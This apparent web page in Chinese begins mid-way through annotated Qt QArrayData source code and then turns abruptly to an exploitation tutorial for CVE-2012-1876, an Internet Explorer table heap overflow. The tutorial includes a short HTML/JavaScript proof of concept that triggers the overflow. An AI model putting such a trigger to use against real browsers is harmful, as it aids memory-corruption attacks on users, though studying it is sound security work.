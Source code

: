 ```
        if (capacityReserved)
            result |= CapacityReserved;
        return result;
    `}`

    AllocationOptions cloneFlags() const
    `{`
        AllocationOptions result;
        if (capacityReserved)
            result |= CapacityReserved;
        return result;
    `}`

    static QArrayData *allocate(size_t objectSize, size_t alignment,    //分配内存返回一个适配的 QArrayData指针
            size_t capacity, AllocationOptions options = Default)
        Q_DECL_NOTHROW Q_REQUIRED_RESULT;
    static void deallocate(QArrayData *data, size_t objectSize,          //释放内存
            size_t alignment) Q_DECL_NOTHROW;

    static const QArrayData shared_null[2];     // 静态的全局对象两个，在分配内存时可以使用Unsharable 和 RawData来指定使用这个两个对象来管理分配的内存
    static QArrayData *sharedNull() Q_DECL_NOTHROW `{` return const_cast&lt;QArrayData*&gt;(shared_null); `}`
`}`;
```



## 从堆溢出到地址泄漏

漏洞编号:****CVE-2012-1876****

|程序<th style="text-align: left;">软件版本</th>
|------
|WIN7<td style="text-align: left;">SP1(x86)</td>
|IE8<td style="text-align: left;">8.0.7601.17514</td>

CVE-2012-1876是法国安全团队Vupen在Pwn2Own2012上攻破Win7下IE9的两个漏洞之一，利用了&lt;table&gt;标签生成时的堆溢出漏洞，Vupen利用这个漏洞进行信息泄漏绕过ASLR并且成功攻下了IE9，其构造exploit的手法是绕过ASLR的教课书级别的利用。

**poc**

```
&lt;html&gt;
 &lt;body&gt;
 &lt;table style="table-layout:fixed" &gt;
       &lt;col id="132" width="41" span="1" &gt;  &lt;/col&gt;
 &lt;/table&gt;
 &lt;script&gt;

 function over_trigger() `{`
        var obj_col = document.getElementById("132");
        obj_col.width = "42765";
        obj_col.span = 1000;
 `}`

 setTimeout("over_trigger();",1);

 &lt;/script&gt;
 &lt;/body&gt;
 &lt;/html&gt;
```

